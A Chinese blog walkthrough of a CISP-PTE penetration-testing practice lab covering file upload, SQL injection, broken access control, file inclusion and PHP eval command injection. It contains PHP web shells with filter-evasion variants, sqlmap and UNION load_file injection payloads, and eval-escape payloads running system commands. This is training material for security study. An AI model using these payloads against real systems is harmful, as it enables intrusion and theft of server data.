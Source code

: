 ```yaml
---
layout: post
title: CISP-PTE Web
subtitle: CISP-PTE Web
date: 2025-08-17 08:44
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
number headings: first-level 2, max 4, 1.1., auto
published: true
---
```

## 1. 信息搜集

扫描网段

```shell
namp -sn 192.168.163.0/24
```

发现主机：192.168.163.132

![image.png](https://img.ghostliner.top/sAg7Cf.png)

```shell
nmap -T5 -sS -p- 192.168.163.132
```

![image.png](https://img.ghostliner.top/DLKSpv.png)

## 2. web1：文件上传

**端口**：32768

![image.png](https://img.ghostliner.top/Vxhg0i.png)

上传普通图片，成功

![image.png](https://img.ghostliner.top/PpVx6G.png)

`http://192.168.163.132:32768/uploads/31457.jpg`

上传 `shell.jpg`

![image.png](https://img.ghostliner.top/AvL5Wi.png)

![image.png](https://img.ghostliner.top/Or62km.png)

`eval` 改为 `system` 仍失败

```php
GIF89a
<?php SYSTEM($_REQUEST[a]);?>
```

测试发现对 `<?php` 进行了过滤，可写成以下形式

```php
<?eval($_POST['cmd']);echo 123;?>
<?=eval($_REQUEST['cmd']);echo 123;?>
<script language="php">eval($_REQUEST['cmd']);</script>
```

上传成功

![image.png](https://img.ghostliner.top/b5fzbi.png)

![image.png](https://img.ghostliner.top/mTh1C2.png)

蚁剑连接获取 key

![image.png](https://img.ghostliner.top/Ri8xjv.png)

## 3. web2：SQL 注入

**端口**：32769

![image.png](https://img.ghostliner.top/yrE2G9.png)

**测试弱密码**

用户名：admin，密码：123456，登录成功

![image.png](https://img.ghostliner.top/t7hmX6.png)

访问 key.cisp 显示 404

![image.png](https://img.ghostliner.top/9ZJzRx.png)

访问 `key.php` 显示空白，说明存在 key.php 文件

![image.png](https://img.ghostliner.top/Y9yCKq.png)
### 3.1. bp 目录扫描

设置 payload

![image.png](https://img.ghostliner.top/X4gQAs.png)

![image.png](https://img.ghostliner.top/ysjHfd.png)

![image.png](https://img.ghostliner.top/9soGyu.png)

![image.png](https://img.ghostliner.top/rjm0wM.png)

![image.png](https://img.ghostliner.top/MINsSl.png)

使用 bp 目录扫描未发现其他路径

### 3.2. sqlmap 测试

发现 uid 参数疑似可注入

![image.png](https://img.ghostliner.top/Lmxj4H.png)

sqlmap 测试漏洞

```shell
sqlmap.py -u "http://192.168.163.132:32769/?m=set&o=useredit&uid=2" -p uid --proxy="http://127.0.0.1:8080" --cookie="PHPSESSID=etnodd8kfkuejkj0i1i07fehr7" --dbs
```

发现漏洞，获取数据库

![image.png](https://img.ghostliner.top/EkZnBy.png)

查看 payload

![image.png](https://img.ghostliner.top/3b4DTH.png)

也可在 bp 上查看

![image.png](https://img.ghostliner.top/Tg93sr.png)

确定为单引号闭合，使用 `-- -` 注释，列数为 10

### 3.3. load_file 读取文件

手动测试，使用 `load_file` 获取文件

```sql
uid=-2' union select 1,2,3,4,5,6,7,8,9,10 -- -
```

![image.png](https://img.ghostliner.top/JsTPhG.png)

```sql
uid=-2' union select 1,load_file('/var/www/html/key.php'),3,4,5,6,7,8,9,10 -- -
```

![image.png](https://img.ghostliner.top/gqpUFh.png)

## 4. web3：失效的访问控制

**端口**：32770

![image.png](https://img.ghostliner.top/O0YghJ.png)

bp 抓包

![image.png](https://img.ghostliner.top/tu2mZO.png)

鼠标选中，直接解码

![image.png](https://img.ghostliner.top/A5inkI.png)

修改请求头

```ini
isadmin=true
username=YWRtaW4%3d
```

![image.png](https://img.ghostliner.top/ncI3Xt.png)

获取 flag

![image.png](https://img.ghostliner.top/UYrMTr.png)

## 5. web4：文件包含

**端口**：32771

![image.png](https://img.ghostliner.top/SiW3yF.png)

```r
http://192.168.163.132:32771/index.php?file=key.cisp
```

![image.png](https://img.ghostliner.top/Yq47ht.png)

```r
http://192.168.163.132:32771/index.php?file=php://filter/convert.base64-encode/resource=key.cisp
```

![image.png](https://img.ghostliner.top/vfUaIC.png)

![image.png](https://img.ghostliner.top/tgK7MW.png)

## 6. web5：命令执行

![image.png](https://img.ghostliner.top/nzcc3z.png)

```php
<?php
error_reporting(0);
include "key4.php";
$a = $_GET['a'];
eval("\$o=strtolower(\"$a\");");
echo $o;
show_source(__FILE__);
?>
```

`$a` 被直接拼进了 `eval` 里，虽然有引号包裹，但依然可能闭合字符串、逃逸到 PHP 代码上下文。

`\` 为转义符，去除后分析代码

```php
$o=strtolower("$a");
```

**要点**：
- 打破 `strtolower("...")` 里的字符串，写入自己的代码，就可以命令执行。

payload:

```php
a=");system("id");//
a=");system("id
a=${system("id")}
```

拼接成

```php
$o=strtolower("");system('id');//");
$o=strtolower("");system("id");
$o=strtolower("${system("id")}");
```
